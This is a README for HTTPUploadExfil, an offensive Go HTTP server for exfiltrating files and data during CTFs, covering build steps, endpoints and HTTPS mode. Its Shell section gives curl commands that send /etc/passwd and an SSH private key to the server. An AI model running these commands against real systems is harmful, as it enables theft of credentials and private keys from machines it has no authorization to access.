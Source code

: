 # HTTPUploadExfil

`HTTPUploadExfil` is a (very) simple HTTP server written in Go that's useful for getting files (and other information) off a machine using HTTP. While there are many use-cases, it's meant to be used in **low-stakes offensive scenarios** (e.g., CTFs).

Think of this as `python3 -m http.server` but for getting data off a machine instead of on the machine.

Obviously, this is a **very loud** and **somewhat restricted** way of exfiltrating data. Nevertheless, it's quite handy and somewhat easier than, for example, using SMB or FTP. If you are looking for something more elegant, have a look at, for example, [`dnsteal`](https://github.com/m57/dnsteal).

**TL;DR**

1) Build the tool using `go build`.
2) Run `./httpuploadexfil :1337 /home/kali/loot` on your machine.
3) Access `http://YOUR_IP:1337/` on the machine you need to exfiltrate data from.
4) Find your uploaded files in `/home/kali/loot`.

## Building and Developing

It's trivial to build this tool.

Simply run `go build` within the folder, and you should get an `httpuploadexfil` executable for your platform.

If you make changes to the tool, remember to format using `go fmt main.go`.

## Usage

The most common use case would be to run the server on *Machine A*. Now, on *Machine B* you access the upload form using a browser and select a file to exfiltrate. Of course, as you can see below, this can also be done using, for example, `curl`.

Aside from uploading files, you can also use `HTTPUploadExfil` to exfiltrate data using simple GET requests. If a request is sent to the `\g` endpoint, the whole request will be stored to disk.

Hence, you can exfiltrate data using the header of the request. It's easiest to use GET parameters (e.g., `?data=...`), but there are other options.

![HTTPUploadExfil](https://github.com/IngoKl/HTTPUploadExfil/blob/main/media/example-1.png?raw=true)

By default, `HTTPUploadExfil` will be served on port 8080. All files will be written to the current directory.

`./httpuploadexfil`

You can also provide some arguments:

`./httpuploadexfil :1337 /home/kali/loot`

The first argument is a bind address, the second one the folder to store files in.

The tool will also expose the files in the loot directory under the `/l` endpoint. This can be used as an easy way to bring files onto the target.

### Endpoints

The webserver exposes four endpoints for you to use:

1) `/` (GET) is the upload form.
2) `/p` (POST) takes the data from the upload form. It requires a `multipart/form-data` request with the `file` field filled.
3) `/g` (GET) will take any GET request and store the full request on the server.
4) `/l` (GET) will provide access to files in the specified folder (Directory Listing). This is to provide basic `python3 -m http.server` functionality.

### HTTPs Mode

`HTTPUploadExfil` can also be used in HTTPs mode. To do so, simply place a `HTTPUploadExfil.csr` and `HTTPUploadExfil.key` file next to the binary. These can be, for example, generated as follows:

```bash
openssl req -new -newkey rsa:2048 -nodes -keyout HTTPUploadExfil.key -out HTTPUploadExfil.csr
openssl x509 -req -days 365 -in HTTPUploadExfil.csr -signkey HTTPUploadExfil.key -out HTTPUploadExfil.csr
```

If the servers sees a `HTTPUploadExfil.csr` file, it will try to start in HTTPs mode. To go back to HTTP, simply remove or rename the certificate files.

### Shell

Using `Bash`, we can exfil data using GET via, for example:

``echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g``

Of course, we can also use `curl` to exfil files:

`curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p`

## ToDo

- [X] Implement an HTTPs version (Transport Encryption)
- [X] Add download option (i.e., provide `python3 -m http.server` functionality)
